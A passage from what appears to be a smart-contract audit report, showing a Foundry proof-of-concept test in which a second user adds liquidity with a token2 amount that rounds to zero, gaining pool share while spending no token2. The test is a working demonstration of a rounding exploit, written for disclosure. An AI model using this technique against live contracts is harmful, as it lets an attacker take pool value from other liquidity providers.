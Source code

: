 ```js
		uint256 addedAmount2 = 2 * 10**token2DecimalPrecision;

		// Have alice add liquidity
		vm.prank(alice);
		(,, uint256 addedLiquidity) = collateralAndLiquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, addedAmount2, 0 ether, block.timestamp, false );
		assertEq(collateralAndLiquidity.userShareForPool(alice, pool1), addedLiquidity, "Alice's share should have increased" );

		// Check that the contract balance has increased by the amount of the added tokens
		assertEq( token1.balanceOf( address(pools)), addedAmount1, "Tokens were not deposited into the pool as expected" );
        assertEq( token2.balanceOf( address(pools)), addedAmount2, "Tokens were not deposited into the pool as expected" );
		// ******************************* SETUP ENDS **************************************

		// Bob now adds liquidity
		assertEq(collateralAndLiquidity.userShareForPool(bob, pool1), 0, "Bob's initial liquidity share should be zero");
		uint256 bob_addedAmount1 = 1 * 10**(token1DecimalPrecision - token2DecimalPrecision) - 1; // = 1e16 - 1
		uint256 bob_addedAmount2 = 101; // @audit : just to bypass the DUST threshold check, won't actually be spent
		// uint256 bob_initial_token1_balance = token1.balanceOf(bob);
		uint256 bob_initial_token2_balance = token2.balanceOf(bob);

		vm.prank(bob);
		(uint256 bob_addedAmountA, uint256 bob_addedAmountB, uint256 bob_addedLiquidity) = collateralAndLiquidity.depositLiquidityAndIncreaseShare( token1, token2, bob_addedAmount1, bob_addedAmount2, 0 ether, block.timestamp, false );
		assertEq(bob_addedAmountA, bob_addedAmount1, "all of Bob's token1 not added");
		assertEq(bob_addedAmountB, 0, "0 amount was not allowed"); // @audit : no `token2` amount was actually spent by Bob
		assertEq( token2.balanceOf(bob), bob_initial_token2_balance, "Bob's final token2 balance reduced");
		assertEq(collateralAndLiquidity.userShareForPool(bob, pool1), bob_addedLiquidity, "Bob's share should have increased" ); 
		assertEq(bob_addedLiquidity, bob_addedAmount1, "Bob's share increase not equal to token1 added amount" ); 

		// Check that the contract balance has increased by the amount of the added tokens
		assertEq( token1.balanceOf( address(pools)), addedAmount1 + bob_addedAmount1, "Bob's token1 were not deposited into the pool as expected" ); 
        assertEq( token2.balanceOf( address(pools)), addedAmount2, "Bob's token2 got deposited into the pool" ); // @audit : pool's token2 balance remains the same
	}
}
```

## Tools Used
Foundry
